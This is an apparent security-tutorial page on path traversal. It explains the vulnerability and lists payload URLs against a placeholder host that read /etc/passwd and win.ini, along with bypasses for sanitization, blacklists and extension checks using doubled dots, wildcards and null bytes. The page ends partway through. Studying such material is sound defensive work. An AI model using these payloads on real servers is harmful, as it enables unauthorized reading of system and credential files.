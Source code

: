 # Path traversal.
Path traversal is also known as directory traversal. These vulnerabilities ***enable an attacker to read arbitrary files on the server that is running an application***. <br />
In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server. 

## Reading arbitrary files via path traversal
Imagine a shopping application that displays images of items for sale. This might load an image using the following HTML:<br />
`<img src="/loadImage?filename=218.png">`<br />
The loadImage **URL takes a filename parameter and returns the contents of the specified file**. The image files are stored on disk in the location `/var/www/images/`. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In other words, the application reads from the following file path:<br />
`/var/www/images/218.png`<br />
This application implements no defenses against path traversal attacks. As a result, an attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem:<br />
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
On Windows, both ../ and ..\ are valid directory traversal sequences. The following is an example of an equivalent attack against a Windows-based server:
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

----------------------------------------------------

# Path traversal Types and Serialization.
## Absolut Path traversal.
In this type of Path traversal, results can be obtained by using the absolute path:<br />
`https://insecure-website.com/loadImage?filename=/etc/passwd`

## Relative Path traversal.
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Non-Recursive Sanitization Traversal.
In some cases, serialization techniques detect the path `../` and delete it. We can bypass this by doubling it and using `....//`:<br />
`https://insecure-website.com/loadImage?filename=....//....//....//....//etc/passwd`

## Black list bypass.
In other cases the server may have a black list that find some maches and invalidate them like `passwd`. We can bypass it using regular expresions `pass*`: <br />
`https://insecure-website.com/loadImage?filename=....//....//....//....//etc/pass*`<br />
`https://insecure-website.com/loadImage?filename=../../../../../etc/ho?ts`<br />
`https://insecure-website.com/loadImage?filename=../../../../../e??/pa????`<br />


## Null byte Path Traversal.
Sometimes the developer may concatenate an exension to the file being searched. In this case, if we attempt to obtain the `/etc/passwd` , we might actually be searching for `/etc/passwd.php`. We can avoid this technique (Only if the PHP version is outdated) by using a null byte to override the extension.<br />
`https://insecure-website.com/loadImage?filename=../../../../../etc/passwd%00`<br />

## Extension validation.
Its possible to make the server just to search the files that contains an especific exetensin. For example, The target can only show a file if the file extension is not .txt.


